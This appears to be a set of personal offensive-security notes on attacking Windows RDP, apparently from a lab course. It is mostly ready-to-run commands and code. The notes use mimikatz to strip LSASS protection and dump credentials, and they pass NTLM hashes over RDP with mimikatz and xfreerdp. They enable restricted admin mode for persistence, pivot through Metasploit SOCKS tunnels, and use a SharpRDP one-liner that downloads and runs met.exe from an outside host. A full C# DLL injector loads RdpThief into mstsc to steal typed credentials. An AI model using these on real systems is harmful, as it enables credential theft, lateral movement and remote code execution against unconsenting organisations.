


RDP
Steal NTLM hash
- When an RDP connection is created, the NTLM hashes will reside in memory for the duration of the session.
- The session does not terminate without a proper logout, which means simply disconnecting from the sessions will leave the hashes in memory
## mimikatz commands first remove lsa protection and then dump passwords
privilege::debug
!+
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
RDP restricted admin mode pass the hash
- • • Mitigation of stealing hashes : restricted admin mode
- network login
- do not require creds (connect as same user)
- password not stored on memory
- disables SSO
- mstsc.exe /restrictedadmin

- ▪ ▪ disabled by default on the target machine
- enabled by HKLM:\System\CurrentControlSet\Lsa
- Enter-PSSession -Computer appsrv01
- New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
## mimikatz commands for rdp pass the hash
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:'mstsc.exe /restrictedadmin'" "exit"
# estricted admin mode is not enabled by default. However, if we are in possession of a password hash for a local account on the target machine, we can enable it in order to be able to use a RDP connection to that target
##n run a powershell instance
sekurlsa::pth /user:admin /domain:corp1.com /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
## persistence : enable restricted mode to use pass the hash with rdp
Enter-Pssession -ComputerName $target
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
## with kali xfreerdp suppoirt restricted mode
xfreerdp /u:admin /pth:d22b080f0d763c02c7b57b80c4f843a4 /v:fs01 /cert-ignore /dynamic-resolution
if disabled

- RDP pass the hash from kali
xfreerdp /u:administrator /pth:96b927ecd4785badb8b50bc175c101c4 /v:dc01.corp.com /cert-ignore
Reverse RDP Proxying with Metasploit
- goal : reach internal servers protected by NAT implemented on edge firewalls and build a tunnel on which a rdp session will placed
# after getting a session
background
use multi/manage/autoroute
set session 1
exploit
## allow us to configure a reverse tunnel through the meterpreter session and use that with SOCKS proxy
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
run -j
proxychains xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.215.6 /cert-ignore

RDP as console
- Sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
Stealing creds from rdp session
https://github.com/0x09AL/RdpThief
- compile dll and use inject dll inside mstsc
- should be executed before the user enters creds
- the app will run while loop and will detect when a rdp session is being launched
- type \Users\dave\Appdata\Local\Temp\3\data.bin
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading;
namespace Inject
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
public static extern IntPtr GetModuleHandle(string lpModuleName);
static void Main(string[] args)
{
String dllName = "C:\\windows\\tasks\\RdpThief.dll";
while(true)
{
Process[] mstscProc = Process.GetProcessesByName("mstsc");
if(mstscProc.Length > 0)
{
for(int i = 0; i < mstscProc.Length; i++)
{
int pid = mstscProc[i].Id;
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
}
}
Thread.Sleep(1000);
}
}
}
}
aaa